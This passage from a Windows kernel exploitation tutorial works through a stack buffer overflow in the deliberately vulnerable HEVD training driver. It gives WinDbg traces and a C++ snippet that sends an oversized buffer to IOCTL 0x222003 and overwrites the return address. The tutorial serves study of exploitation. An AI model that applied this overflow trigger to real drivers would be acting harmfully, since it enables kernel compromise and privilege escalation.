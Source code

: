 On x64, arguments to functions are passed in RCX, RDX, R8 & R9. Any additional arguments will be placed on the stack. We can see that RCX is a kernel address and therefore likely the target kernel buffer. RDX is a user-mode address and contains our input buffer. R8 contains the length, here 512.

```
1: kd> dq rcx L4
ffffc88a`b6420f60  00000000`00000000 00000000`00000000
ffffc88a`b6420f70  00000000`00000000 00000000`00000000
1: kd> dq rdx L4
0000022b`3e180000  41414141`41414141 41414141`41414141
0000022b`3e180010  41414141`41414141 41414141`41414141
```

Let’s step over the call and observe that the kernel buffer is filled with our input.

```
1: kd> p
HEVD!TriggerBufferOverflowStack+0xcf:
fffff805`7d3e6683 eb1b            jmp     HEVD!TriggerBufferOverflowStack+0xec (fffff805`7d3e66a0)
1: kd> dq rcx L4
ffffc88a`b6420f60  41414141`41414141 41414141`41414141
ffffc88a`b6420f70  41414141`41414141 41414141`41414141
```

Now let’s see what happens when we extend the length of our input buffer:

```cpp
...
LPVOID uBuffer = VirtualAlloc(NULL, 2500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
RtlFillMemory(uBuffer, 2500, 'A');
DeviceIoControl(hDriver, 0x222003, (LPVOID)uBuffer, 2500, NULL, 0, NULL, NULL);
...
```

If we break again but this time run until the function returns, we can see that the return address has been overwritten:

```
Breakpoint 1 hit
HEVD!TriggerBufferOverflowStack+0xca:
fffff805`7d3e667e e83dabf7ff      call    HEVD!memcpy (fffff805`7d3611c0)
1: kd> p
HEVD!TriggerBufferOverflowStack+0xcf:
fffff805`7d3e6683 eb1b            jmp     HEVD!TriggerBufferOverflowStack+0xec (fffff805`7d3e66a0)
1: kd> pt
HEVD!TriggerBufferOverflowStack+0x10b:
fffff805`7d3e66bf c3              ret
1: kd> dq rsp
ffffc88a`b4a21778  41414141`41414141 41414141`41414141
ffffc88a`b4a21788  41414141`41414141 41414141`41414141
1: kd> g
Access violation - code c0000005 (!!! second chance !!!)
HEVD!TriggerBufferOverflowStack+0x10b:
fffff805`7d3e66bf c3              ret
```
